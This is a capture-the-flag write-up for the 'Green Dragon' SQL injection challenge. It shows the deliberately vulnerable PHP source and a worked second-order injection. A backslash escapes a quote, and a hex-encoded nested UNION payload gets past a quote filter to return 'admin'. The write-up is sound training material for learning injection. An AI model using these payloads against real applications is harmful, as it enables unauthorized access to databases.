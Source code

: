 # Green Dragon

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
?>
```

So green dragon clever  use of '\' is being used that is our query is select id,pw from prob_green_dragon where id='\' and pw=' 0 or 1 #ok
doesn't return anything so the table prob_green_dragon might be empty, that is there must be another table.

So we could  give something like select id,pw from prob_green_dragon where id='\' and pw=' union select('admin') #ok

But we are not allowed to use single qoutes(').

So lets take a query like this,
```sql
select id,pw from prob_green_dragon where id='\' and pw='union select 0x5c,0x756e696f6e2073656c656374203078363136343664363936652023 --+';
```
That will give an output of

```
+------+----------------------------+
| id   | pw                         |
+------+----------------------------+
| \    | union select 0x61646d696e # |
+------+----------------------------+
```

Now this output will be again used as the id and password for the next sql query that is as follows,

```sql
select id from prob_green_dragon where id='\' and pw='union select 0x61646d696e #';
```

Now that will give us 

+-------+
| id    |
+-------+
| admin |
+-------+

Hence the challenge is solved, by far the most interesting one, this was good...took me 4 days, but it was great.



